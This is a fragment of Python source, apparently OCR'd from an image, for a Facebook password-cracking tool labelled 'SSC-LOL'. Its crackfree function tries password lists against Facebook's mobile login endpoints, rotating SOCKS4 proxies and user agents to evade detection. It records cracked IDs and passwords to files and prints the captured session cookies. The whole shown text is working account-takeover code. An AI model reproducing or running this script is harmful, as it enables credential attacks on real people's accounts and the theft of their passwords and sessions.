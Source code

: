                ok+=1
                coki=po.cookies.get_dict()
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print(f'\r\033[0;92m[SSC-LOL-Ok💚] {idf} • {pw}\n\033[0;93m[🌺]= COOKIES • \033[0;92m{kuki} ')
                os.system('espeak -a 300 " SSC-LOL,  Ok,  id"')
                open('OK/'+okc,'a').write(idf+' • '+pw+'\n')
                break
                
            else:
                continue
        except requests.exceptions.ConnectionError:
            time.sleep(31)
    loop+=1
 
#------------------[ METHODE-MBASIC-2 ]-------------------#
 
def crackfree(idf,pwv):
    global loop,ok,cp
    sys.stdout.write(f"\r{H}[SSC-LOL-M2]{P} [{H}{loop}{P}]{P}>~<[{H}{len(id)}{P}]-[OK{P}•{H}{ok}{P}] [{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        try:
            nip=random.choice(prox)
            proxs= {'http': 'socks4://'+nip}
            ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
            p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
            dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
            koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
            koki+=' m_pixel_ratio=2.625; wd=412x756'
            heade = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="109", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent':ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
            if "checkpoint" in po.cookies.get_dict().keys():
                print(f'\r\033[0;95m[{time.strftime("%H:%M")}•SSC-LOL-Cp] {idf} • {pw}')
                os.system('espeak -a 300 " Cp,"')
                open('CP/'+cpc,'a').write(idf+' • '+pw+'\n')
                akun.append(idf+' • '+pw)
                cp+=1
                break
            elif "c_user" in ses.cookies.get_dict().keys():
                ok+=1
                coki=po.cookies.get_dict()
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print(f'\r\033[10;92m[{time.strftime("%H:%M")}•SSC-LOL-Ok] {idf} • {pw} ')
                os.system('espeak -a 300 " Ok,  SSC-LOL,  id"')
                open('OK/'+okc,'a').write(idf+' • '+pw+'\n')
                break